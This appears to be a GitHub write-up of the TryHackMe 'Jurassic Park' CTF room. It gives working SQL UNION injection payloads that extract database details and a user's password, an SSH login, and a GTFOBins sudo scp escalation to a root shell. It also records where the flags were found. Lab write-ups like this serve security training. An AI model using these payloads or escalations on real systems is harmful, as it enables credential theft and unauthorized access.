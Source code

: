 # [Jurassic Park CTF](https://tryhackme.com/room/jurassicpark)

## A Jurassic Park CTF

# Jurassic Park CTF

## This medium-hard task will require you to enumerate the web application, get credentials to the server and find four flags hidden around the file system. Oh, **Dennis** Nedry has helped us to secure the app too.

### What is the name of the SQL database serving the shop information?

1. Start by port enumeration, there are only two open ports

```bash
nmap -p- -Pn <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports
- `-Pn`: Skips the host discovery process (ping scan)

![SCREEN01](https://github.com/user-attachments/assets/8be95842-fa3c-4227-8139-53d25c681efb)

2. Gobuster doesn't give us much more, just `/delete` and `/assets`. But in `/delete` there is information that `Ubuntu` is the OS, and database is `MySQL`

```bash
gobuster dir -u http://<IP> -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt
```

- `-u`: Specifies the URL to scan
- `-w`: Specifies the wordlist file used for brute-forcing

![SCREEN02](https://github.com/user-attachments/assets/8858a950-99a4-4ce2-9e04-d1f1fb25c37b)

3. Going through the shop we can spot interesting url that is `<IP>/item.php?id=1`. If we put `'` at the end we will get caught

4. Use [Cyber Chief](https://gchq.github.io/CyberChef) URL Encode to prepare injection payload

```SQL
0 UNION SELECT 1,database(),3,4,5
```

![SCREEN03](https://github.com/user-attachments/assets/56af34d8-387e-4d32-b30d-1ff3f8f6edc9)

### How many columns does the table have?

1. If we go above 5, we will get an error '**Unknown column '6' in 'order clause'**'

```SQL
0 UNION SELECT 1,2,3,4,5
```

### What is the system version?

1. We can use payload like this to display version

```SQL
0 UNION SELECT 1,2,version(),4,5
```

![SCREEN04](https://github.com/user-attachments/assets/45677af5-4b49-4a86-b588-d297f0979259)

### What is Dennis' password?

1. First let's find out other tables

```SQL
0 UNION SELECT 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema = database()
```

![SCREEN05](https://github.com/user-attachments/assets/293644c2-96c3-47a4-a439-65e0ea74a67d)

2. Columns in `users`

```SQL
0 UNION SELECT 1,2,group_concat(column_name),4,5 from information_schema.columns where table_name = "users"
```

![SCREEN06](https://github.com/user-attachments/assets/1845ad5e-fc8c-4f47-ac20-a71fc9e87531)

3. Now get password, we already know the name

```SQL
0 UNION SELECT 1,2,3,password,5 from users
```

![SCREEN07](https://github.com/user-attachments/assets/11004dde-b10c-4aff-a732-8f70d6c16b49)

### What are the contents of the first flag?

1. Login using ssh

```Bash
ssh dennis@<IP>
```

![SCREEN08](https://github.com/user-attachments/assets/e0fcec40-7eeb-401e-ad07-8701561aef53)

2. The flag is right when we started

```Bash
cat flag1.txt
```

![SCREEN09](https://github.com/user-attachments/assets/9b4e6816-2450-47ca-ab25-bc8a28497304)

### What are the contents of the second flag?

1. Let's get root access to move around more easily

```Bash
sudo -l
```

2. Check [GTFOBins](https://gtfobins.github.io/gtfobins/scp/) for `scp`, use the sudo commands and upgrade our shell

```Bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:

python -c 'import pty; pty.spawn("/bin/bash")'
```

![SCREEN11](https://github.com/user-attachments/assets/39a54e47-de69-4c55-85a0-0f0f5f8b71d8)

3. Let's try to find more

```Bash
find / -type f -name "*flag*.*"
cat /boot/grub/fonts/flagTwo.txt
```

![SCREEN12](https://github.com/user-attachments/assets/409be678-2b24-46d9-b695-880b74380372)

### What are the contents of the third flag?

1. Third flag is hidden in history:

```Bash
history
```

![SCREEN13](https://github.com/user-attachments/assets/52612708-1483-4975-858a-d600e753a5c0)

### What are the contents of the fifth flag?

1. In `home/dennis/` there is `test.sh` which points to the `/root/flag5.txt`

```Bash
cat test.sh
cat /root/flag5.txt
```

![SCREEN14](https://github.com/user-attachments/assets/f669c4b6-7a40-440f-a107-85a547b8ebe6)
